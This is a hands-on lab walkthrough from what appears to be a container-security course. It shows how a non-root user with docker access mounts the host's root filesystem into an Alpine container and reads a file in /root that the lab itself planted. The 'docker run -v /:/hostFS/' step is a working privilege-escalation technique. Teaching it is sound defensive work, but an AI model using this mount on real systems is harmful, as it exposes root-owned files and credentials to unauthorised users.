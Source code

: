## Authentication Attacks against Host

###### A `non-root user` with access to docker can gain access to root filesystem of the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `Labs/3.0.0-Container-Attacks/3.1.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.1.0
    ```

##### Step 3:

* Run `sudo su` to become root user.

    ```commandline
      root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# sudo su
      root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
##### Step 4:

* Create a `secret.txt` file inside `/root/` directory.

    ```commandline
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0# touch /root/secret.txt
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
##### Step 5:

* Open `secret.txt` and write some secret in it.

    **Note:** 
    1. `esc+i` to insert character into the file,
    2. `esc+:+wq` to save and exit from the file.

    ```commandline
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0# vim /root/secret.txt
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
    
        
##### Step 6: 
  
* Run `sudo su user` login as a normal user.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# sudo su user
    user@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0$
    ```

##### Step 7: 
  
* Run `cat /root/secret.txt` read the content of secret.txt file.

    ```commandline
    user@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0$ cat /root/secret.txt
    cat: /root/secret.txt: Permission denied
    ```

##### Step 8: 

* Run `docker run -ti -v /:/hostFS/ alpine` as `docker-user`(non-root user)
    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# docker run -ti -v /:/hostFS/ alpine
    / # 
    
    ```

##### Step 9:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    / # cd /hostFS/root/
    /hostFS/root # 
    ```
    
##### Step 10:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    /hostFS/root # ls
    secret.txt
    ``` 
    
##### Step 11:

* Run `cat secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
secret

``` 

**Note** : Now the docker-user has the privilege to view the root user data.
